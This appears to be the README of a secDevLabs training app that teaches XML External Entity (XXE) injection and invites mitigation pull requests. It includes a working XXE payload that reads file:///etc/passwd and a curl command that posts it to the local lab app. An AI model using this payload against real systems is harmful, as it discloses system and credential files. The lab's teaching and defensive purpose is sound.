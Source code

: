 # XXE

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆





```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

    curl -d @payload.xml localhost:10004/contact.php ; echo

evilxml.xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <contact>
    <name>&xxe;</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
    </contact>

Attack

    curl -d @evilxml.xml localhost:10004/contact.php ; echo
